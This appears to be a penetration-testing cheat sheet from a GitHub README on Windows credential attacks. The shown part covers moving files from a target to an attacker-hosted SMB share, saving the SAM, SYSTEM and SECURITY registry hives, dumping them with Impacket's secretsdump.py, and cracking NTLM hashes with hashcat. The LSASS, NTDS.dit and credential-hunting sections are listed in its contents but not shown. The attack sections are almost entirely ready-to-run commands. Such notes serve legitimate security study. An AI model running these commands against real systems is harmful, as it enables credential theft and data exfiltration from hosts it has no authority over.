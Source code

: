 ### Content
- [Transfer Files Technique](#transfer-files-technique)
- [Hash Crack Technique](#hash-crack-technique)
- [Checking Privileges](#checking-privileges)
- [SAM Attacks](#sam-attacks)
- [LSASS Attacks](#lsass-attacks)
- [NTDS.dit Attacks](#ntds.dit-attacks)
- [Credential Hunting](#credential-hunting)
---
##### Transfer Files Technique
Transfer files from the target to the attacker machine using [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).
1. Create a Share with smbserver.py on the attacker host
	``` bash
	sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <shareName> /home/bob/Documents/
	```
2. Move files on the target host to the created share
	``` PowerShell
	C:\> move <FileName> \\<IP>\<shareName>
	```
---
##### Hash Crack Technique
Crack hashes with hashcat. [supported hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)

``` bash
# Crack list of hashes
sudo hashcat -m 1000 hashestocrack.txt <wordlist>
# Crack one hash directly
sudo hashcat -m 1000 <hash> <wordlist>
```
---
##### Checking Privileges
- Check local priv using `net localgroup`.
- Check domain priv using `net user <UserName>`.
---
## SAM Attacks

Dumping the local SAM database from a compromised host. (**Local admin privileges required**)
Three registry hives required to dump the SAM secrets:
- `hklm\sam` Contains the hashes associated with local account passwords.
- `hklm\system` Contains the system bootkey, which is used to encrypt the SAM database.
- `hklm\security` Contains cached credentials for domain accounts.

- Save the required hives:
	``` PowerShell
	C:\WINDOWS\system32> reg.exe save hklm\sam C:\Windows\Temp\sam.save  
	C:\WINDOWS\system32> reg.exe save hklm\system C:\Windows\Temp\system.save  
	C:\WINDOWS\system32> reg.exe save hklm\security C:\Windows\Temp\security.save
	```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the three hives
- Dump Hashes with Impacket's secretsdump.py
	``` bash
	python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.
